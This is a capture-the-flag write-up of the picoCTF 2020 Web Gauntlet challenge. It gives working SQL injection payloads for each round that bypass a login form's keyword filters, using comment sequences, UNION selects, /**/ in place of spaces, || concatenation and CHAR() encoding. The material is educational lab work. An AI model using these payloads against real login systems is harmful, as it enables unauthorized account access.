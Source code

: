 ```yaml
---
layout: post
title: 
picoCTF 2020 Mini-Competition - Web Gauntlet SQL Injection
---
```


In this challenge, we are linked to a login form we are meant to bypass with SQL injection. At each level the filter changes, so we have to update your injection as necessary.
 
## Round 1 - filter: or

Use basic injection and comment out the rest of the line.

```sql
input: admin'--
SELECT * FROM users WHERE username='admin'--' AND password='a'
```

## Round 2 - filter: or and like = --

Without `--`, check for other ways to comment. We can also use UNION to get our specific user.

```sql
input: admin'/*
SELECT * FROM users WHERE username='admin'/*' AND password='a'

input: ' union select * from users where username in("admin")/*
SELECT * FROM users WHERE username='' union select * from users where username in("admin")/* AND password='a'
```

## Round 3 - filter: or and = like > < --

The first injection from the previous round still works here, but let's try to get the second to work too. Spaces are now blocked, but we can use `/**/` comments for the same effect. I tried %20 to replace all the spaces, but it was not effective.

```sql
input: admin'/*
SELECT * FROM users WHERE username='admin'/*' AND password='a'

input: '/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*
SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*' AND password='a'
```

## Round 4 - filter: or and = like > < -- admin

In SQLITE, `||` is a concatenation operator. The simple solution is to simply split up "admin" in a way to bypass the filter. A more complicated solution could include encoding encode "admin" in ASCII number code and using the SQL `CHAR()` function to decode it.

```sql
input: adm'||'in'/*
SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'

input: '/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*
SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*' AND password='a'
```

## Round 5 - filter: or and = like > < -- union admin

Splitting up "admin" still works as only UNION is additionally blacklisted.

```sql
input: adm'||'in'/*
SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'
```

